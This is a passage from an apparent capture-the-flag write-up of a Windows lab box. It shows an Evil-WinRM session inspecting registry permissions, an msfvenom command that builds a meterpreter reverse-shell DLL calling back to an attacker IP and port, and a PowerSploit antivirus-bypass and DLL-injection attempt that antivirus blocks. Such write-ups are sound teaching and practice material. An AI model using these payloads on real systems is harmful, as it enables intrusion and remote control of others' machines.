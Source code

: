 The second one seems way more interesting, because it might give be the key:
```
*Evil-WinRM* PS C:\Users\Hector\appdata\roaming\microsoft\Windows\Powershell\PSReadline> get-acl HKLM:\SYSTEM\CurrentControlSet | format-list


Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet
Owner  : BUILTIN\Administrators
Group  : NT AUTHORITY\SYSTEM
Access : BUILTIN\Administrators Allow  FullControl
         NT AUTHORITY\Authenticated Users Allow  ReadKey
         NT AUTHORITY\Authenticated Users Allow  -2147483648
         S-1-5-32-549 Allow  ReadKey
         S-1-5-32-549 Allow  -2147483648
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Administrators Allow  268435456
         NT AUTHORITY\SYSTEM Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  268435456
         CREATOR OWNER Allow  268435456
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadKey
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  -2147483648
         S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681 Allow  ReadKey
         S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681 Allow  -2147483648
Audit  :
Sddl   : O:BAG:SYD:AI(A;;KA;;;BA)(A;ID;KR;;;AU)(A;CIIOID;GR;;;AU)(A;ID;KR;;;SO)(A;CIIOID;GR;;;SO)(A;ID;KA;;;BA)(A;CIIOID;GA;;;BA)(A;ID;KA;;;SY)(A;CIIOID;GA;;;SY)(A;CIIOID;GA;;;CO)(A;ID;KR;;;AC)(A;CIIOID;GR;;;AC)(A;ID;KR;;;S-1-15-3-1024-1065365936-12
         81604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681)(A;CIIOID;GR;;;S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681)

```

I think I'm so close, but it's 18:35 and, in 25 minutes, this box is gonna be retired. Also, my dll injection is yet too many poor, so I leave it here.
Some other things I do:

Created dll using msfvenom
```
kali@kali:~$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.17 LPORT=6666 -f dll -o msf.dll
/usr/share/rubygems-integration/all/gems/bundler-1.17.3/lib/bundler/rubygems_integration.rb:200: warning: constant Gem::ConfigMap is deprecated
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of dll file: 5120 bytes
Saved as: msf.dll
```
Copied PowerSploit for trying to inject that dll into some proccess, for testing, but..
*Evil-WinRM* PS C:\inetpub\wwwroot> Import-Module .\AntivirusBypass.psd1
*Evil-WinRM* PS C:\inetpub\wwwroot> Import-Module .\Invoke-DllInjection.ps1
At C:\inetpub\wwwroot\Invoke-DllInjection.ps1:1 char:1
+ function Invoke-DllInjection
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
At C:\inetpub\wwwroot\Invoke-DllInjection.ps1:1 char:1
+ function Invoke-DllInjection
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
